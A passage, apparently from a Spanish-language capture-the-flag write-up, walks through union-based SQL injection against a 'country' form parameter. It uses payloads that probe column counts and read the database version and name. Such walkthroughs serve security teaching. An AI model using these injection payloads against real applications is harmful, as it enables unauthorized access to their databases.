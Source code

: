 ```
# username=test&country=Brazil' order by 1-- - 
```

![](/assets/img/Validation/image_5.png)

`Identificamos` la `versión` y el `tipo base de datos` a la que nos enfrentamos

```
# username=test&country=Brazil' union select version()-- - 
```

![](/assets/img/Validation/image_6.png)

Vemos la `base de datos` sobre la que estamos realizando la inyección, es decir la que se está `utilizando`

```
# username=test&country=Brazil' union select database()-- - 
```
